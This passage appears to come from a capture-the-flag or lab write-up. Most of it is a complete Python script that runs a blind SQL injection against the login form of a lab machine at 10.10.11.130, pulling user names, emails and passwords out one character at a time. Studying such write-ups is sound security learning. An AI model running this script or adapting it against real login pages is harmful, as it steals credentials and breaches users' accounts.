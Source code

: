 ```bash
python3 exploit.py
```

![](/img2/Pasted%20image%2020250514124639.png)

- Get email,password and name in Users

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


url = "http://10.10.11.130/login"
characters = string.ascii_lowercase + "_,-" + string.digits



def SQLI():
	p1=log.progress("Brute Force")
	p1.status("Starting Attack")

	time.sleep(2)

	p2=log.progress("Data")
	info=""


	for position in range(1,1000):
		for character in characters:
			data = {
  			'email' : "test'or SUBSTRING((SELECT group_concat(name,',',email,',',password,',') from user), "+str(position)+", 1) = '"+character+"'-- -",
  			'password' : 'test'}
			r=requests.post(url,data=data)
			if "Login Success" in r.text:
				info+=character
				p2.status(info)
				break

SQLI()
```
